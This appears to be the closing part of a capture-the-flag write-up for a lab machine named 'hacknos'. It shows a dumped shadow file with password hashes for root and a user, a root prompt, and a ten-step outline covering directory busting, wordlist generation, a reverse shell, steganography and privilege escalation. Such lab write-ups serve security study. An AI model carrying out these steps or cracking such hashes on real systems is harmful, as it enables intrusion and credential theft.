root:$6$9wLzhSJjfhAZWC6U$OYEbMA40I4TxbhpBCfGlQz5qtdlWlHRwLIyrnonMvZl12gG4RF4Pnbqfbr6//HSDIxUapfURhcW9rCwF7U6dG1:18243:0:99999:7:::
daemon:*:18186:0:99999:7:::
bin:*:18186:0:99999:7:::
sys:*:18186:0:99999:7:::
sync:*:18186:0:99999:7:::
games:*:18186:0:99999:7:::
man:*:18186:0:99999:7:::
lp:*:18186:0:99999:7:::
mail:*:18186:0:99999:7:::
news:*:18186:0:99999:7:::
uucp:*:18186:0:99999:7:::
proxy:*:18186:0:99999:7:::
www-data:*:18186:0:99999:7:::
backup:*:18186:0:99999:7:::
list:*:18186:0:99999:7:::
irc:*:18186:0:99999:7:::
gnats:*:18186:0:99999:7:::
nobody:*:18186:0:99999:7:::
systemd-timesync:*:18186:0:99999:7:::
systemd-network:*:18186:0:99999:7:::
systemd-resolve:*:18186:0:99999:7:::
messagebus:*:18186:0:99999:7:::
syslog:*:18186:0:99999:7:::
_apt:*:18186:0:99999:7:::
uuidd:*:18186:0:99999:7:::
tcpdump:*:18186:0:99999:7:::
landscape:*:18186:0:99999:7:::
pollinate:*:18186:0:99999:7:::
sshd:*:18240:0:99999:7:::
systemd-coredump:!!:18240::::::
blackdevil:$6$m2N9FHn/AwZRXUp7$BsnGW77AFYwv1FHpWc.gv.GQjPD.JYbo4hvnuogDBQAawQx4jv9NBiKVLS5oj.nG0hwkwpehxQwclj.H4jXZK.:18243:0:99999:7:::
lxd:!:18240::::::
mysql:!:18240:0:99999:7:::
dnsmasq:*:18243:0:99999:7:::
root@hacknos:~#
```



## How to hack

1. Find web, go bust some dirs
2. Generate passwords from web site
3. Login
4. Trigger reverse shell
5. Find sketchy database file
6. Realise that it is steganorgraphy that you are dealing with
7. Get the password. How many users are in the system.
8. Become a user
9. Find what it can do
10. Become root.

</body>
</html>
